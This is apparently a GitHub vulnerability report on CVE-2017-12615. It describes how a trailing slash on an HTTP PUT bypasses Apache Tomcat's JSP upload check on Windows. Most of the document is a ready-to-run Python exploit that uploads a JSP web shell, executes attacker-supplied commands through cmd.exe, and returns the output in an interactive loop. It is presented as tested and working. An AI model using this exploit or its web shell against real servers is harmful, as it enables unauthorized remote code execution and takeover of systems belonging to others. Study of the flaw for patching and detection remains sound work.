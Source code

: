 <div align="center"><h1>CVE-2017-12615 REPORT</h1></div>

## About the vulnerability

When running Apache Tomcat on Windows with HTTP PUTs enabled (e.g. via setting the readonly initialisation parameter of the Default to false) it was possible to upload a JSP file to the server via a specially crafted request. This JSP could then be requested and any code it contained would be executed by the server.

**On versions:** Apache Tomcat 7.0.0 to 7.0.69

**Pre-requisites:** set readonly init parameter of Default to false i.e enable HTTP PUTs.

## Explanation

Apache Tomcat should not allow upload of file files .jsp extension variants.

`PUT /evil.jsp` should give an error.

But the extension check is bypassed when a '/' is added to the end of the url.

`PUT /evil.jsp/` triggers the vulnerability.

This happens because `file()` method in `VirtualDirContext.java` does not validate the extension correctly on appending '/' to the url.

Passing any jsp code by HTTP PUTs request to the Tomcat Server, on triggering the vulnerability, would lead to RCE on the server.

## Exploit

```
#!/usr/bin/python
import requests

targetURL = input('target url\n') #Url of the the Apache Tomcat Server

def cmdshell():
    command = input('$> ') #command to run at the target
    endpoint = 'http://' + targetURL + '/payload.jsp'
    payload = '''
    <%@ page import="java.util.*,java.io.*"%>
    <%
    String cmd = "''' + command + '''";
    Process p;
    p = Runtime.getRuntime().exec("cmd.exe /C " + cmd);
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
    %>
    ''' #Payload for RCE in .JSP format
    r = requests.put(endpoint+'/', data=payload) #Sending PUTs request with payload
    r = requests.get(endpoint) #For seeing the output of RCE
    print(r.content.decode("utf-8")) #decode response with UTF-8

while True:
    cmdshell()

```
[Exploit on github](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall2/chall2/exploit_CVE-2017-12615.py)

This exploit was tested on Apache Tomcat 7.0.69 and allows RCE on the Apache Tomcat Server.

## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=uAx89r8cYFU)

